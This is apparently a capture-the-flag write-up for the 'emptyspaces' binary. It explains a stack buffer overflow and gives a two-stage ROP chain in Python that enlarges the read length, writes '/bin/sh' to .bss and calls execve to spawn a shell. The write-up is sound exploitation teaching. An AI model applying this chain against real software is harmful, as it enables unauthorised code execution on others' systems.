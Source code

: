# emptyspaces

## Disassemble and Decompilation

![Empty Spaces Main](../../.github/assets/emptyspaces/main.png)

As we can see the input string is 64 bytes long and the read is reading 137, thus we have a BO. The problem is that after the overflow of the buffer and the sEBP we have just 137-64-8=65 bytes that are not enough for a rop chain where we first read the string '/bin/sh' and then call execve.

## Solution

The idea is to use a multistage rop chain exploit. First we use a rop chain to set the RDX register to 0x1000 (arbitrary high value) and then we return to the read in the main. In this way we are rewriting the exact same buffer but we have more bytes for the second stage.

### First Stage

```python
call_main = [
    b'A'*72,
    pop_rdx,
    p64(0x1000),
    main,
]
```

This stage is 96 bytes long, so it fits the 137 bytes read.

### Second Stage

```python
read_execve_payload = [
    b'A'*88,
    pop_rdi,
    p64(0x0),
    pop_rsi,
    bss_addr,
    xor_eax_eax_syscall,
    pop_rax,
    p64(0x3b),
    pop_rdi,
    bss_addr,
    pop_rdx_pop_rsi,
    p64(0x0),
    p64(0x0),
    syscall
]
```

This stage fits the 0x1000 bytes we have set in the RDX register in the first stage. We overflow the buffer and overwrite the sRIP of the read() function. Basically the read() function in the main instead of returning to the main itself, it returns to the pop_rdi gadget. Then the chain begins, a read syscall is called to read the string '/bin/sh' in the bss section, then the execve syscall is called to execute the string '/bin/sh'.

Note that we have two different syscall gadgets. This is because the xor_eax_eax_syscall gadget is used to set the RAX register to 0x0, while the last syscall gadget is a terminator syscall, meaning that it will never return.
